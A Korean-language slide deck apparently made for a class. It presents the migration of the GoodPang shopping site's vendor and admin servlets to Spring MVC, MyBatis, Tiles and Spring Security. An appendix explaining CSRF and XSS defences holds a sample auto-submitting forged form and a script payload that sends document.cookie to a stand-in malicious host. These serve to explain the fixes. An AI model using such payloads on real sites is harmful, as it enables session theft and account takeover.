





# GoodPang → GoodPangSpringLegacy 전환
## 판매자센터 · 관리자 파트

JSP/Servlet 프로젝트를 Spring Legacy(Spring MVC 5.0 + MyBatis + Tiles + Spring Security)로 옮긴 작업 발표

- 담당: 판매자센터(`/vendor/**`), 관리자(`/admin/**`)
- 브랜치: `feature/scm`

> 💬 발표 포인트: "무엇을 옮겼는지" → "어떻게 옮겼는지(패턴)" → "옮기면서 부딪힌 문제" → "Spring이라서 더 좋아진 점" 순서로 설명

---

## 1. 전환 범위

| 구분 | 기존 GoodPang | GoodPangSpringLegacy |
|---|---|---|
| 판매자 기능 | 서블릿 **23개** | `VendorController` 1개 (URL 매핑 27개) |
| 관리자 기능 | 서블릿 **16개** | `AdminController` 1개 (URL 매핑 17개) |
| DB 접근 | DAO 클래스 (JDBC, 약 3,600줄) | MyBatis Mapper 인터페이스 + XML (SQL 65개) |
| 화면 | JSP 29개 (각자 헤더/사이드바 include) | Tiles 레이아웃 + JSP (판매자 18개, 관리자 11개) |
| 트랜잭션 | `setAutoCommit(false)` / `commit` / `rollback` 직접 | Service + `@Transactional` |
| 로그인/권한 | Filter(`VendorAuthFilter`, `AdminAuthFilter`) | 판매자: 세션 확인 / 관리자: **Spring Security** |
| 액션 로그 | 서블릿마다 직접 `log(...)` 호출 | **AOP** `ActionLogAspect` 한 곳 |

**39개 서블릿 전부 이전 완료**






---

## 2. 전체 구조 비교

### Before (GoodPang)
```
브라우저 → @WebServlet("/vendor/order") → VendorOrderListDAO (JDBC) → Oracle
                     │
                     └→ request.getRequestDispatcher("vendor-order.jsp").forward()
                              └ <%@ include file="topbar.jspf" %> (페이지마다)
```

### After (GoodPangSpringLegacy)
```
브라우저 → DispatcherServlet → Spring Security 필터
              → VendorController (@GetMapping("/order.htm"))
                    → Service (@Transactional) → Mapper (MyBatis XML) → Oracle
              → ModelAndView("vendor.order")
                    → Tiles: layout.jsp = topbar + sidebar + content(order.jsp)
```

| 계층 | 패키지 | 만든 것 |
|---|---|---|
| Controller | `controller` | `VendorController`, `AdminController`, `CategoryController` |
| Service | `service` | `VendorOrderService`, `VendorProductService`, `VendorAccountService`, `AdminService`, `AdminDeliveryService` |
| Mapper | `mapper` | `Vendor*Mapper` 6개, `Admin*Mapper` 4개, `NoticeMapper`, `CategoryMapper` |
| AOP | `aop` | `ActionLogAspect` |
| Security | `security` | `AdminLoginSuccessHandler` |

---



## 3. 전환 패턴 ① Servlet → Controller

```java
// Before - 서블릿 하나 = URL 하나
@WebServlet("/vendor/delivery")
public class VendorDeliveryServlet extends HttpServlet {
    protected void doGet(HttpServletRequest request, HttpServletResponse response) ... {
        HttpSession session = request.getSession(false);
        SellerDTO loginSeller = (SellerDTO) session.getAttribute("loginSeller");
        if (loginSeller == null) { response.sendRedirect(request.getContextPath() + "/vendor/login"); return; }

        List<VendorDeliveryDTO> list = new VendorDeliveryDAO().findShippingBySellerNo(loginSeller.getSellerNo());
        request.setAttribute("deliveryList", list);
        request.getRequestDispatcher("/WEB-INF/views/vendor-delivery.jsp").forward(request, response);
    }
}
```

```java
// After - 메서드 하나 = URL 하나, 의존성은 주입받음
@GetMapping("/delivery.htm")
public ModelAndView delivery(HttpSession session) {
    ...
    List<VendorDeliveryDTO> deliveryList = vendorOrderMapper.findShippingBySellerNo(loginSeller.getSellerNo());

    ModelAndView mav = new ModelAndView("vendor.delivery");   // Tiles 정의 이름
    mav.addObject("deliveryList", deliveryList);
    return mav;
}
```

| Servlet | Spring |
|---|---|
| `request.getParameter("page")` | `@RequestParam(value = "page", required = false) String page` |
| `request.setAttribute(...)` | `mav.addObject(...)` |
| `response.sendRedirect(...)` + `return;` | `return new ModelAndView("redirect:/vendor/login.htm");` |
| `new XxxDAO()` | `@RequiredArgsConstructor` + `private final XxxMapper` (생성자 주입) |
| JSON 응답: `PrintWriter` + Gson | `@ResponseBody` + `ResponseEntity` (Jackson 자동 변환) |

---

## 4. 전환 패턴 ② DAO(JDBC) → MyBatis Mapper

```java
// Before - SQL + 연결 + 파라미터 + 결과 매핑을 전부 직접
String sql = "SELECT ... WHERE P.SELLER_NO = ? AND P.DISPLAY_YN = ?";
try (Connection conn = ConnectionProvider.getConnection();
     PreparedStatement pstmt = conn.prepareStatement(sql)) {
    pstmt.setInt(1, sellerNo);
    pstmt.setString(2, displayYn);
    try (ResultSet rs = pstmt.executeQuery()) {
        while (rs.next()) list.add(mapRow(rs));   // rs.getInt("PRODUCT_NO") ... 20줄
    }
}
```

```xml
<!-- After - SQL만 XML에, 매핑은 자동 (mapUnderscoreToCamelCase: PRODUCT_NO → productNo) -->
<select id="findBySellerNo" resultType="org.doit.goodpang.domain.VendorProductListDTO">
    SELECT ... WHERE P.SELLER_NO = #{sellerNo} AND P.DISPLAY_YN = #{displayYn}
</select>
```

**DAO에서 Java로 하던 일을 SQL로 옮긴 예**

| 기존 Java 코드 | MyBatis 전환 |
|---|---|
| `mapRow()`로 날짜 라벨 `"5/13"` 만들기 | `TO_CHAR(D.STAT_DATE, 'FMMM/DD') AS LABEL` |
| `buildOptionLabel()` - 옵션값을 " / "로 잇기 | `SUBSTR(CASE WHEN ... THEN ' / ' \|\| PO.OPTION1_VALUE END \|\| ..., 4)` |
| `StringBuilder`로 검색 조건 이어붙이기 | `<where>` + `<if test="...">` 동적 SQL |
| `nextVal()`로 시퀀스 먼저 조회 | `<selectKey order="BEFORE">` |
| 조회 3번(주문/상품/배송이력) 후 Java에서 합치기 | `LEFT JOIN` + `ROW_NUMBER()`로 2번 |
| `rs.getInt()` + `rs.wasNull()` | DTO 필드를 `Integer`로 두면 자동으로 null |
| 컬럼명 ≠ 필드명 (`MEMBER_NAME` → `buyerName`) | `M.MEMBER_NAME AS BUYER_NAME` 별칭 |

---

## 5. 전환 패턴 ③ JSP include → Tiles, 스크립틀릿 → EL

```xml
<!-- tiles.xml - 판매자 화면은 전부 같은 레이아웃 -->
<definition name="vendor.*" template="/WEB-INF/views/vendor/inc/layout.jsp">
    <put-attribute name="css"     value="/vendor/inc/css/{1}.css" type="string"/>
    <put-attribute name="topbar"  value="/WEB-INF/views/vendor/inc/topbar.jsp"/>
    <put-attribute name="sidebar" value="/WEB-INF/views/vendor/inc/sidebar.jsp"/>
    <put-attribute name="content" value="/WEB-INF/views/vendor/{1}.jsp"/>
</definition>
<!-- 관리자 화면은 원래 각자 단독 화면이라 JSP를 그대로 template으로 -->
<definition name="admin.*" template="/WEB-INF/views/admin/{1}.jsp"/>
```

```jsp
<%-- Before --%>  <%= loginSeller.getZipcode() != null ? loginSeller.getZipcode() : "" %>
<%-- After  --%>  <c:out value="${sessionScope.loginSeller.zipcode}" />
```

- Controller는 `"vendor.order"`만 반환 → 레이아웃·상단바·사이드바는 Tiles가 조립
- 페이지별 CSS는 `/vendor/inc/css/{뷰이름}.css`가 **있을 때만** `<link>` 출력

---

## 6. 트러블슈팅 ① Tiles에서 변수가 안 넘어감

**증상**: `sellerGrade cannot be resolved to a variable` 컴파일 오류

```jsp
<%-- layout.jsp --%>
<% String sellerGrade = null; %>
<tiles:insertAttribute name="topbar"/>   <%-- topbar.jsp에서 sellerGrade 사용 → 오류 --%>
```

**원인**
- 기존 `<%@ include %>`는 **정적 include** → 두 파일이 서블릿 하나로 합쳐져서 지역변수 공유 가능
- `<tiles:insertAttribute>`는 **동적 include** → topbar.jsp가 별도 서블릿으로 컴파일됨 → 지역변수가 안 보임

**해결**: 스크립틀릿 변수 → **request 속성 + EL**
```java
mav.addObject("menu", "orders");          // Controller
```
```jsp
<a class="${menu eq 'orders' ? 'active' : ''}" ...>   <%-- sidebar.jsp --%>
```

---

## 7. 트러블슈팅 ② 403 / 406 - 응답을 거부당함

### 403 Forbidden (로그인·등록 버튼을 누르면)
- **원인**: Spring Security의 **CSRF 보호** - POST에 `_csrf` 토큰이 없으면 필터가 차단 (`permitAll`이어도 차단)
- **해결**: 모든 POST 폼에 토큰 추가

| 폼 종류 | 토큰 넣는 방법 |
|---|---|
| 일반 form | `<input type="hidden" name="${_csrf.parameterName}" value="${_csrf.token}">` |
| 파일첨부 form (multipart) | CsrfFilter가 본문을 못 읽음 → `action="...?${_csrf.parameterName}=${_csrf.token}"` |
| `fetch()` + FormData | 헤더로: `headers: { "${_csrf.headerName}": "${_csrf.token}" }` |

### 406 Not Acceptable (상품 등록 시)
- **원인**: Spring 5.0은 **URL 확장자로 응답 형식을 결정** → `.htm` = "HTML 요청"인데 메서드는 JSON만 응답 (`produces = "application/json"`)
- **해결**: JSON 응답 URL만 `/vendor/product_write.htm` → **`/vendor/product_write.json`**

---

## 8. 트러블슈팅 ③ Oracle + MyBatis 데이터 타입

| 증상 | 원인 | 해결 |
|---|---|---|
| 옵션의 정상가를 비우면 `부적합한 열 유형: 1111` | MyBatis는 null을 타입 없이(`OTHER`) 넘기는데 Oracle JDBC가 거부 | `#{normalPrice, jdbcType=NUMERIC}` |
| (옮기면서 미리 막은 문제) 대시보드 날짜 집계가 0으로 나올 수 있음 | JDBC의 `java.sql.Date`(자정)와 달리 `java.util.Date`는 **시간까지** TIMESTAMP로 넘어가서 `TRUNC(날짜) = 파라미터` 비교가 어긋남 | `TRUNC(#{targetDate})` |
| 정산 기간 `LocalDate` 매핑 | - | MyBatis 3.4.6 기본 `LocalDateTypeHandler`가 DATE ↔ `LocalDate` 자동 변환 |
| 로그인 실패 메시지가 안 보임 | Controller는 `redirect:...?error=`(URL 파라미터)로 보내는데 JSP는 `request.getAttribute("error")`를 읽음 | JSP에서 `${param.error}` |

---

## 9. 트랜잭션: 직접 제어 → `@Transactional`

```java
// Before - VendorOrderListDAO.shipOrder()
conn.setAutoCommit(false);
try {
    insertDelivery(conn, ...);
    if (!updateStatusToShipping(conn, ...)) { conn.rollback(); return FAILED; }
    conn.commit();
} catch (Exception e) { conn.rollback(); throw e; }
```

```java
// After - VendorOrderService
@Transactional
public ShipResult shipOrder(int orderNo, int sellerNo, String invoiceNo) {
    ...
    if (vendorOrderMapper.updateOrderStatusToShipping(orderNo, sellerNo) != 1) return ShipResult.FAILED;
    vendorOrderMapper.insertDelivery(orderNo, deliveryServiceCode, invoiceNo);
    return ShipResult.SUCCESS;          // 예외가 나면 Spring이 전부 rollback
}
```

| 트랜잭션으로 묶은 처리 | 함께 바뀌는 테이블 |
|---|---|
| 출고 처리 `shipOrder` | ORDERS + DELIVERY |
| 상품 등록 `registerProduct` | PRODUCT + PRODUCT_OPTION + PRODUCT_IMAGE |
| 배송완료 `completeDelivery` | DELIVERY + ORDERS |
| 판매자 탈퇴 `withdraw` | SELLER + PRODUCT (**기존엔 따로 실행 → 개선**) |

⚠ `<tx:annotation-driven>`은 Service가 만들어지는 **root-context.xml**에 있어야 동작 (servlet-context.xml에 두면 조용히 무시됨)

---

## 10. 관리자 인증: Spring Security (SL14_SECURITY2_JDBC 방식)

```xml
<!-- 관리자 전용 보안 설정 - 회원용 <http>보다 먼저 선언 -->
<http pattern="/admin/**" authentication-manager-ref="adminAuthenticationManager"
      security-context-repository-ref="adminSecurityContextRepository">
    <intercept-url pattern="/admin/login.htm" access="permitAll" />
    <intercept-url pattern="/admin/**" access="hasRole('ADMIN')" />
    <form-login login-page="/admin/login.htm" login-processing-url="/admin/loginProcess"
                username-parameter="adminId" authentication-success-handler-ref="adminLoginSuccessHandler" .../>
    <logout logout-url="/admin/logout.htm" logout-success-url="/admin/login.htm?logout" />
</http>

<authentication-manager id="adminAuthenticationManager">
    <authentication-provider>
        <jdbc-user-service data-source-ref="dataSource"
            users-by-username-query="SELECT ADMIN_ID AS USERNAME, ADMIN_PW AS PASSWORD, 1 AS ENABLED FROM ADMIN WHERE ADMIN_ID = ?"
            authorities-by-username-query="SELECT ADMIN_ID AS USERNAME, 'ROLE_ADMIN' AS AUTHORITY FROM ADMIN WHERE ADMIN_ID = ?" />
        <password-encoder ref="passwordEncoder" />
    </authentication-provider>
</authentication-manager>
```

- **Java 코드 없이 SQL 두 개로 인증** - ADMIN 테이블에 권한 테이블이 없어서 `'ROLE_ADMIN'`을 SQL에서 고정
- `AdminController`에는 로그인 확인 코드가 **한 줄도 없음** (기존 `AdminAuthFilter` 역할을 Security가 대신)

---

## 11. 트러블슈팅 ④ Security를 두 개 쓰면서 생긴 문제

| 증상 | 원인 | 해결 |
|---|---|---|
| 관리자로 로그인 후 쇼핑몰 메인이 깨짐 (`Invalid property 'principal.member'`) | 회원·관리자가 세션의 로그인 정보 **한 칸**을 같이 씀 → 관리자 로그인이 회원 로그인을 덮어씀 → 쇼핑몰 헤더가 관리자 principal에서 `member`를 찾다 실패 | 관리자 로그인 정보를 **별도 키**(`ADMIN_SPRING_SECURITY_CONTEXT`)에 저장 |
| 회원 로그인이 관리자 인증으로 처리될 위험 | `<authentication-manager>`가 2개면 기본 인증관리자 별칭을 한쪽이 가져감 | 둘 다 `id`를 주고 `<http>`마다 `authentication-manager-ref`로 명시 |
| 관리자 첫 로그인만 404 (`/admin/login`) | Security가 "로그인 전에 가려던 주소"를 기억 → 옛 주소(`.htm` 없음)로 돌려보냄 | 성공 핸들러에서 `/admin/**.htm` 화면일 때만 복귀, 아니면 대시보드 |

---

## 12. AOP: 흩어진 액션 로그를 한 곳으로 (SL06_AOP aop4 방식)

**Before** - Controller 13곳에 같은 코드
```java
if (vendorProductMapper.updateDisplayYn(productNo, sellerNo, displayYn) == 1) {
    try { vendorActionLogMapper.insertLog(sellerNo, "상품 숨김", "PRODUCT", productNo, null); }
    catch (Exception e) { e.printStackTrace(); }
}
```

**After** - Controller는 처리만, 로그는 Aspect가
```java
vendorProductService.changeDisplayYn(productNo, sellerNo, displayYn);   // Controller
```
```java
@Aspect @Component @Order(1)
public class ActionLogAspect {
    @Pointcut(value = "execution(boolean ...VendorProductService.changeDisplayYn(..)) && args(productNo, sellerNo, displayYn)",
              argNames = "productNo,sellerNo,displayYn")
    private void changeDisplayYn(int productNo, int sellerNo, String displayYn) {}

    @AfterReturning(pointcut = "changeDisplayYn(productNo, sellerNo, displayYn)", returning = "changed",
                    argNames = "productNo,sellerNo,displayYn,changed")
    public void afterChangeDisplayYn(int productNo, int sellerNo, String displayYn, boolean changed) {
        if (changed) vendorLog(sellerNo, "Y".equals(displayYn) ? "상품 노출" : "상품 숨김", "PRODUCT", productNo, null);
    }
}
```

- `@AfterReturning`: 예외 없이 끝났을 때만 + **반환값으로 성공 여부 판단** → 실패하면 로그 없음
- `@Order(1)`: `@Transactional`보다 바깥 → **commit 뒤에** 로그 (로그 실패가 처리를 되돌리지 않음)
- 판매자 로그 7종 + 관리자 로그 6종, 가짜 Mapper로 실행 검증 (성공 15건 / 실패 0건)
- 삽질: `argNames` 없이 만들었더니 "Required parameter names not available"로 **서버가 안 뜸** → 전부 명시

---

## 13. 배포(Ubuntu + Tomcat 9)에서 만난 문제

| 증상 | 원인 | 해결 |
|---|---|---|
| 서버 시작 시 `ClassNotFoundException: ContextLoaderListener` | 이클립스 배포 설정에서 Maven 라이브러리가 `WEB-INF/lib`에 안 들어감 | Deployment Assembly에 Maven Dependencies 추가 |
| 업로드 성공 메시지는 나오는데 썸네일이 깨짐 | 저장 폴더(`UPLOAD_BASE_DIR`)와 `/upload` URL 매핑 폴더(`ROOT.xml`)가 **서로 다름** | 둘 다 `/root/goodpang-uploads`로 통일 |
| 업로드해도 오류 없이 "아무 일 없음" | 성공해도 안내 없이 대시보드로 이동 + "기존 첨부파일" 문구가 CSS(`show` 누락)로 숨겨져 있었음 | 같은 화면으로 돌아와 **flash 메시지 + 서류 썸네일** 표시 |

```
업로드 파일 흐름 (서버)
  저장: UploadPaths → 환경변수 UPLOAD_BASE_DIR (/opt/tomcat9/bin/setenv.sh)
  조회: /upload/** → ROOT.xml <PostResources base="..." webAppMount="/upload"/>
  → 두 경로가 반드시 같아야 함
```

---

## 14. 옮기면서 같이 고친 것 (기존 GoodPang에도 있던 문제)

| 구분 | 내용 |
|---|---|
| 보안 - CSRF | 모든 POST 폼에 토큰 (기존엔 CSRF 보호 자체가 없었음) |
| 보안 - XSS | 사용자 입력값 출력을 `<c:out>`으로 (판매자가 스토어명에 스크립트를 넣으면 관리자 화면에서 실행될 수 있었음) |
| 보안 - 오픈 리다이렉트 | 로그인/출고 후 이동 주소를 허용 목록으로 제한 |
| 데이터 정합성 | 판매자 탈퇴(상태 변경 + 상품 숨김)를 한 트랜잭션으로 |
| 로그 정확도 | 상품 승인·판매자 승인에서 **실제로 바뀐 경우에만** 로그 (기존엔 실패해도 기록) |
| UX | 공지 수정 검증 실패 시 입력값 유지, 판매자 입점 신청 서버 오류 메시지 표시 |
| UX | 숫자 입력칸이 마우스 휠로 바뀌는 문제 차단 (가격 50000 → 49997 저장 사례) |
| 정리 | 동작하지 않던 "수정" 버튼 제거, 잘못 복사돼 있던 `order_detail.jsp` 재작성 |

---

## 15. 결과 요약

| 항목 | 결과 |
|---|---|
| 서블릿 이전 | 판매자 23 + 관리자 16 = **39개 전부** |
| 코드 구조 | Controller 2개 / Service 5개 / Mapper 12개 / Aspect 1개로 역할 분리 |
| SQL | Java 문자열 → MyBatis XML **65개** (동적 SQL, 별칭 매핑) |
| 반복 코드 제거 | JDBC 연결/매핑 코드, 트랜잭션 제어 코드, 액션 로그 13곳 |
| 수업 내용 적용 | Spring MVC, MyBatis, Tiles, `@Transactional`, **Spring Security(SL14)**, **AOP(SL06)** |

---

## 16. Spring Legacy로 옮겨서 좋아진 점

| 구분 | 기존 GoodPang | Spring Legacy 전환 후 |
|---|---|---|
| 코드 구조 | 서블릿 39개에 요청 처리·DB·트랜잭션이 섞여 있음 | Controller / Service / Mapper로 **역할 분리**, 의존성은 주입받음 |
| DB 접근 | 연결·파라미터·결과 매핑을 JDBC로 직접 작성 | MyBatis XML에 **SQL만** 작성, 매핑 자동, 동적 SQL로 검색 조건 처리 |
| 화면 | JSP마다 헤더/사이드바 include 반복 | Tiles 레이아웃 **한 곳**에서 조립, 스크립틀릿 → EL/JSTL |
| 트랜잭션 | `commit` / `rollback` 직접 제어 (탈퇴 처리는 묶이지 않음) | `@Transactional` 선언만으로 묶음, 예외 시 자동 rollback |
| 인증/보안 | Filter로 로그인 확인, CSRF 보호 없음 | 관리자는 **Spring Security**(SQL 2개로 인증), 전체 POST에 **CSRF** 토큰, `<c:out>`으로 XSS 방지 |
| 공통 기능 | 액션 로그 코드가 13곳에 복사 | **AOP** Aspect 한 곳, 성공했을 때만 commit 뒤에 기록 |

**요약**: 반복 코드(JDBC·트랜잭션·로그·레이아웃)를 Spring이 맡으면서 각 코드는 **자기 역할에만 집중**하게 됐고, 보안과 데이터 정합성도 함께 개선됨

---

## Q & A

- 참고 문서: [`docs/goodpanglegacy_scm.md`](goodpanglegacy_scm.md) (AOP 액션 로그 상세)
- 배포 문서: [`cicd/cicd_springlegacy.md`](../cicd/cicd_springlegacy.md)

---

## 부록. CSRF 토큰과 XSS 방지

### CSRF (Cross-Site Request Forgery, 사이트 간 요청 위조)

**어떤 공격인가** - 사용자가 로그인한 상태를 악용해서, **사용자 모르게 다른 사이트에서 요청을 보내는 공격**

1. 판매자가 GoodPang 판매자센터에 로그인해 있음 (세션 쿠키가 브라우저에 있음)
2. 같은 브라우저로 악성 사이트에 들어감
3. 그 사이트에 숨겨진 폼이 있음
   ```html
   <form action="https://goodpang.com/vendor/withdraw.htm" method="POST">...</form>
   <script>document.forms[0].submit();</script>
   ```
4. 브라우저는 GoodPang 쿠키를 **자동으로 같이 보냄** → 서버는 판매자 본인의 요청으로 알고 탈퇴를 처리함

기존 GoodPang은 세션만 확인했기 때문에 이런 요청을 막지 못했음

**CSRF 토큰으로 막는 원리**
- 서버가 화면을 보여줄 때 **예측할 수 없는 난수 토큰**을 폼 안에 같이 넣음
- POST 요청이 오면 Spring Security의 `CsrfFilter`가 이 토큰이 세션에 저장된 값과 같은지 확인
- 악성 사이트는 그 토큰 값을 알 수 없음 → 토큰이 없거나 틀리면 **403 Forbidden**

```jsp
<input type="hidden" name="${_csrf.parameterName}" value="${_csrf.token}">
```

- 전환 초기에 "로그인·등록 버튼을 누르면 403"이 난 이유: Security를 켜면 CSRF 보호가 기본으로 켜지는데 폼에 토큰이 없었음
- 폼 종류별 방법: 일반 form은 hidden input / 파일 첨부 form은 action URL에 토큰 / `fetch()`는 요청 헤더에 토큰

### XSS (Cross-Site Scripting)

**어떤 공격인가** - **사용자가 입력한 값에 스크립트를 넣어서, 그 값을 보는 다른 사람의 브라우저에서 실행시키는 공격**

1. 판매자가 스토어명을 `<script>fetch('https://악성.com?c='+document.cookie)</script>` 로 입점 신청
2. 관리자가 판매자 승인 화면을 엶
3. 기존 JSP가 `${seller.storeName}` 이나 `<%= ... %>` 로 **그대로 출력**
4. 관리자 브라우저에서 스크립트가 실행되고, 관리자 세션 쿠키가 탈취될 수 있음

**`<c:out>`으로 막는 원리** - 출력하기 전에 HTML 특수문자를 **이스케이프**

| 문자 | 변환 |
|---|---|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&#034;` |
| `'` | `&#039;` |
| `&` | `&amp;` |

```jsp
<%-- 위험: 태그로 해석되어 실행됨 --%>
${seller.storeName}

<%-- 안전: 화면에 글자 "<script>..." 그대로 보일 뿐 실행 안 됨 --%>
<c:out value="${seller.storeName}" />
```

### 한 줄 비교

| | CSRF | XSS |
|---|---|---|
| 공격 방법 | 로그인된 사용자의 권한으로 **요청을 위조** | 사용자 입력에 **스크립트를 심음** |
| 공격 위치 | 다른(악성) 사이트 | 우리 사이트 화면 안 |
| 방어 | 폼마다 **CSRF 토큰** → 서버가 검증 | 출력할 때 **이스케이프** (`<c:out>`) |
| 이번 프로젝트 | Spring Security `CsrfFilter` + 모든 POST 폼에 토큰 | 사용자 입력값 출력을 `<c:out>`으로 변경 |

---

## 부록. DI와 AOP는 어디에서 사용되었나

### DI (의존성 주입)

**핵심**: 객체를 `new`로 직접 만들지 않고 Spring이 만들어서 넣어줌

**① 빈 등록: 누가 객체를 만드는가**

| 설정 | 등록되는 빈 |
|---|---|
| [root-context.xml](../project/GoodPangSpringLegacy/src/main/webapp/WEB-INF/spring/root-context.xml) `<context:component-scan>` (Controller 제외) | `@Service`, `@Component`(Aspect) |
| [servlet-context.xml](../project/GoodPangSpringLegacy/src/main/webapp/WEB-INF/spring/appServlet/servlet-context.xml) `<context:component-scan>` (Controller만) | `@Controller` |
| root-context.xml `<mybatis-spring:scan>` | Mapper 인터페이스 (MyBatis가 구현체를 만들어서 빈으로 등록) |
| [security-context.xml](../project/GoodPangSpringLegacy/src/main/webapp/WEB-INF/spring/security-context.xml) `<beans:bean>` | `adminSecurityContextRepository`, `adminLoginSuccessHandler`, `passwordEncoder` |






**② 주입: 어디서 받아 쓰는가**

생성자 주입(`@RequiredArgsConstructor` + `private final`) - 이번 파트의 기본 방식

| 클래스 | 주입받는 것 |
|---|---|
| `VendorController` | Mapper 6개 + `VendorOrderService`, `VendorProductService`, `VendorAccountService` |
| `AdminController` | Mapper 6개 + `AdminService`, `AdminDeliveryService` |
| `VendorOrderService` 외 Service 4개 | 각자 필요한 Mapper |
| `ActionLogAspect` | `VendorActionLogMapper`, `AdminActionLogMapper` |

```java
@Controller
@RequiredArgsConstructor           // final 필드를 받는 생성자를 Lombok이 만들어 줌
public class VendorController {
    private final VendorOrderService vendorOrderService;   // Spring이 생성자로 넣어줌
```

